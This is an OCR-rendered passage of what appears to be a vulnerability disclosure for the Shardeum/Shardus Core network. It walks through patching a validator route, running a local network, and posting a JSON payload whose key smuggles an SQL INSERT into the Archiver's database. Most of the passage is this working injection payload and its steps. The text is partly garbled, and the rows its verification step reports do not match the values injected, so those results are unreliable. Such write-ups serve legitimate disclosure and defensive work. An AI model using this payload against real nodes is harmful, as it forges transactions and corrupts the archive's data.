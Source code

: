 ```
}

return res.json({ success })
```

}, } \`\`\`

I've added this route at \`src/p2p/Join/routes.ts\` at the Shardus Core. Make sure to add the relevant imports and export the route.

### Step 2

Link the patched Core to the \`shardeum\` repo with \`npm link\` in the Core repo and \`npm link @shardus/core\` in the Shardeum repo

### Step 3

Run the local network by following the instructions in the [Shardeum repository](https://github.com/shardeum/shardeum/tree/dev?tab=readme-ov-file#running-the-network-locally)

### Step 4

Send a POST request to the malicious validator with the following payload: \`\`\`json { "tx": { "txId": "9187322183472823932748", "originalTxData": {}, "cycle": 1, "timestamp": 1697192678, " cycle, originalTxData, timestamp, txId) VALUES (1, '{}', 111111111, 'tx12345'), (?, '{}', 1666, '123123'), (?, ?, ?, ?);": "22222" } } \`\`\`

_**Note**_ For our example, this transaction data serves as the "real" transaction: \`\`\`json { "txId": "9187322183472823932748", "originalTxData": {}, "cycle": 1, "timestamp": 1697192678, } \`\`\`

### Step 5

_**Verify the database changes**_: After the SQL injection, the following transactions will appear in the Archiver's database: \`(1, '{}', 1697192678, '12345')\` \`(22222, '{}', 1697192679, '123123')\`

